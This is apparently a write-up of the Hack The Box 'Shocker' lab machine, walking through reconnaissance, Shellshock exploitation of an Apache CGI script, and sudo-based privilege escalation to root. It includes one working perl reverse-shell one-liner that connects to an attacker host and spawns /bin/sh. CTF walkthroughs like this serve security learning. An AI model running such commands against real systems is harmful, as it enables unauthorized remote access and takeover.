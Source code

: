 ```yaml
---
layout: post
title: "HTB Shocker write-up"
---
```


# **Recon**

`nmap` routine shows 2 TCP ports open on the target

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094035274/c913388e-a8d8-40b3-af52-2428eaa47c3b.png)

directory enumeration on the Apache server is performed via `gobuster`

> Different wordlists may impact enumeration results

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094170011/98440997-56ad-4a85-affb-ab967b6c23ed.png)

> `/cgi-bin` directory was discovered however the directory itself is not accessible (error code 403)

while we get a `403` trying to access `/cgi-bin` we could do a further dirbust to see if subsequent directories can be accessed

> always enumerate harder

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094267335/d9239033-d3a2-4956-a592-2088a5ce4f9a.png)

> gobuster `-x` allows appending of file types, in this case according to the hints `/cgi-bin` is where apache stores scripts (`.pl, .sh` etc.) ref: [cgi enum wordlist](https://github.com/orwagodfather/WordList/blob/main/cgi-bin.txt) for more possible scripts that can be found

# Exploit

we notice that the Apache server is running an older version during recon phase, also given we find `.sh` shell scripts, we piece together two main keywords "apache" "shell script" to find the [CVE](https://www.exploit-db.com/exploits/34900) "Shellshock"

to test whether certain exploits are applicable we can first attempt to test our hypothesis using `nmap` scripts

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094289067/9b6d360f-308e-4739-aeeb-98631bf6854f.png)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094294056/cf79f0d1-554f-4da4-ac39-03e5cdd1f9ca.png)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094298992/86a826fc-8045-42d9-bdc4-1a32413e7009.png)

knowing the server is indeed vulnerable, we can try to run to exploit to gain foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094315245/6b8f3624-178d-43b9-b516-fc9f41fe0576.png)

> some errors were caught and after some "try hardering" it was related to the exploit being written in python2

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094380361/6aea2aab-9941-4035-b33f-e9a5cabbf052.png)

after successfully configuring the payload, we can access the user flag

# Priv Esc

due to the box being an easy one, this process is very much a low-hanging fruit

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094436484/b9e595fa-710c-49af-8dc1-45d94c88dcbc.png)

a quick GTFObins tour and we can successfully escalate to root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094449118/924b1f2e-e697-4afa-853b-4455d70e233a.png)

## Alternative method

```bash
sudo perl -e 'use Socket;$i="$LHOST";$p=$LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> this method spawns a reverse shell on your attacking machine instead

# Notes

> credits: ippsec [walkthrough](https://www.youtube.com/watch?v=IBlTdguhgfY)

* ## SSH, Apache version enumeration
    
    * crossref package version [site](https://packages.ubuntu.com) against different distro to enumerate which distro is being run
        
    * version last updated date = likely when the system was last updated 
        
* ## HTTP response `Content-Type`
    
    when accessing discovered scripts change the type to `text/plain` so the browser can display the content of the script. in the case where the browser cannot understand the extension, the content will not be displayed when visiting the site #http\_content-type
    
* ## HTTP/web-related `nmap` NSE script debugging
    
    in the case of `nmap` scripts failing, use burp proxy listener:
    
    * bind `localhost:8081` to `$target:$target_port` and `nmap` the `localhost`
        
    * start intercepting and debug the HTTP requests `nmap` sends
        
    * modify nse script accordingly #nmap
        
    
* ## RFC shenanigans
    
    * `nmap` shellshock scripts fail to list `cmd` response due to [RFC standards](https://www.rfc-editor.org/rfc/rfc9110.html): RFC HTTP response standards consist of `\r\n` delimiter between header and body
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094558051/75af4457-eead-42bd-b0d7-ceed686d610e.png align="left")
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094567545/d4c2a9c0-35bf-4f2c-b12b-e45f865485a5.png align="left")
        
        > `echo;` inserts a new line in the response, separating the header from the body (`ls` result) `/bin/ls` is used as `ls` returns negative results (alias/PATH not set)
